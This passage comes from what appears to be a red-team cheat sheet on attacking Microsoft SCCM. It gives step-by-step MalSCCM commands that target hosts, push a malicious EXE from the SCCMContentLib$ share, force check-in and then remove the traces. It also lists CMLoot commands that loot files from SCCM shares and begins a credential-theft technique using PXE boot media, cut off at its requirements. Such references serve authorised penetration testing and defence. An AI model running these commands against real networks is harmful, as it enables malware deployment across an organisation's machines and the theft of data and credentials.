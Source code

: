 * Add your targets into the new group

    ```ps1
    MalSCCM.exe group /addhost /groupname:TargetGroup /host:WIN2016-SQL
    ```

* Create an application pointing to a malicious EXE on a world readable share : `SCCMContentLib$`

    ```ps1
    MalSCCM.exe app /create /name:demoapp /uncpath:"\\BLORE-SCCM\SCCMContentLib$\localthread.exe"
    MalSCCM.exe inspect /applications
    ```

* Deploy the application to the target group

    ```ps1
    MalSCCM.exe app /deploy /name:demoapp /groupname:TargetGroup /assignmentname:demodeployment
    MalSCCM.exe inspect /deployments
    ```

* Force the target group to checkin for updates

    ```ps1
    MalSCCM.exe checkin /groupname:TargetGroup
    ```

* Cleanup the application, deployment and group

    ```ps1
    MalSCCM.exe app /cleanup /name:demoapp
    MalSCCM.exe group /delete /groupname:TargetGroup
    ```

## SCCM Shares

> Find interesting files stored on (System Center) Configuration Manager (SCCM/CM) SMB shares

* [1njected/CMLoot](https://github.com/1njected/CMLoot)

  ```ps1
  Invoke-CMLootInventory -SCCMHost sccm01.domain.local -Outfile sccmfiles.txt
  Invoke-CMLootDownload -SingleFile \\sccm\SCCMContentLib$\DataLib\SC100001.1\x86\MigApp.xml
  Invoke-CMLootDownload -InventoryFile .\sccmfiles.txt -Extension msi
  ```

## SCCM Configuration Manager

* [subat0mik/Misconfiguration-Manager/MisconfigurationManager.ps1](https://raw.githubusercontent.com/subat0mik/Misconfiguration-Manager/main/MisconfigurationManager.ps1)

### CRED-1 Retrieve credentials via PXE boot media

* [Misconfiguration-Manager - CRED-1](https://github.com/subat0mik/Misconfiguration-Manager/blob/main/attack-techniques/CRED/CRED-1/cred-1_description.md)

**Requirements**:
